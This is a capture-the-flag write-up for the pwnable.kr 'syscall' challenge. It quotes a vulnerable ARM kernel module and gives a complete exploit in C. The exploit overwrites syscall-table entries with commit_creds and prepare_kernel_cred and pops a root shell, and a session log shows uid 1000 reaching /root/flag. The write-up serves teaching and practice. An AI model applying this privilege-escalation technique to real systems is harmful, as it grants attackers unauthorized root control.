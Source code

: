 ```yaml
---
title: "pwnable.kr: syscall"
tags: Kernel
style: border
color: warning
comments: true
description: syscall overwriting
---
```


# syscall

The following challenge is brought from [pwnable.kr](https://pwnable.kr).

The ```syscall``` challenge emulates ARM kernel and allows us to overwrite parts of the memory by using its own syscall.

## Analysis

The challenge provides a source code:
```c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE 0x8000e348 // manually configure this address!!
#define NR_SYS_UNUSED 223

// Pointers to re-mapped writable pages
unsigned int **sct;

asmlinkage long sys_upper(char *in, char *out)
{
	int len = strlen(in);
	int i;
	for (i = 0; i < len; i++)
	{
		if (in[i] >= 0x61 && in[i] <= 0x7a)
		{
			out[i] = in[i] - 0x20;
		}
		else
		{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void)
{
	sct = (unsigned int **)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void)
{
	return;
}

module_init(initmodule);
module_exit(exitmodule);
```

The corresponding kernel module, ```m.ko``` , creates a new syscall called sys_upper which takes in two pointers and writes byte from ```in``` to ```out```.

We can attack this by overwriting parts of syscall table and calling the overwritten syscall, just like GOT overwriting, but for syscall.

## Exploit

The syscall table address is given, so there does not need to be a kernel leak.

We can replicate syscall table and reference it- since given by kernel.
And call the new syscall ```SYS_UPPER``` to overwrite two arbitrary syscalls with ```commit_creds``` and ```prepare_kernel_cred```, respectively.
Finally, we can call the overwritten syscall and pop shell.

### prepare & commit addresses

We can get them by using:
```bash
/tmp # cat /proc/kallsyms | grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds
/tmp # cat /proc/kallsyms | grep prepare_kernel_cred
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```

### roadblock

The ```sys_upper``` function, however, alters certain bytes: (b'a' - b'z') into (b'A' - b'Z'). i.e. changes lower case ascii letters to upper case.

So the last byte of ```commit_creds```, 0x6c, cannot pass the filter.
So we can instead pass 0x60 for the last byte and add a 12 byte padding before commit_creds.

The padding can be anything, but I found that people usually like ```mov r1, r1``` which translates to ```\x01\x10\xa0\xe1```. One can use online ARM assembler for this. So it's like the usual NOP sled, but not really.

### exploit.c

Using the information above, the final exploitation script looks something like this:
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/syscall.h>

#define SYS_CALL_TABLE 0x8000e348
#define SYS_UPPER 223

unsigned int **sct;
char *commit_creds = "\x60\xf5\x03\x80"; // 0x8003f56c - 0xc
char *prepare_kernel_cred = "\x24\xf9\x03\x80";
char *nop = "\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1";

int main()
{
    sct = (unsigned int **)SYS_CALL_TABLE;

    syscall(SYS_UPPER, nop, 0x8003f56c - 0xc); // "nop" sled/padding
    syscall(SYS_UPPER, commit_creds, &sct[11]);
    syscall(SYS_UPPER, prepare_kernel_cred, &sct[12]);

    syscall(11, syscall(12, 0));
    system("/bin/sh");

    return 0;
}
```

```bash
/tmp $ id
uid=1000 gid=1000 groups=1000
/tmp $ vi exp.c
/tmp $ gcc -o exp exp.c
./exp/tmp $ ./exp
/bin/sh: can't access tty; job control turned off
/tmp # cat /root/flag
Congratz!! [FLAG]
```

Thanks,

079
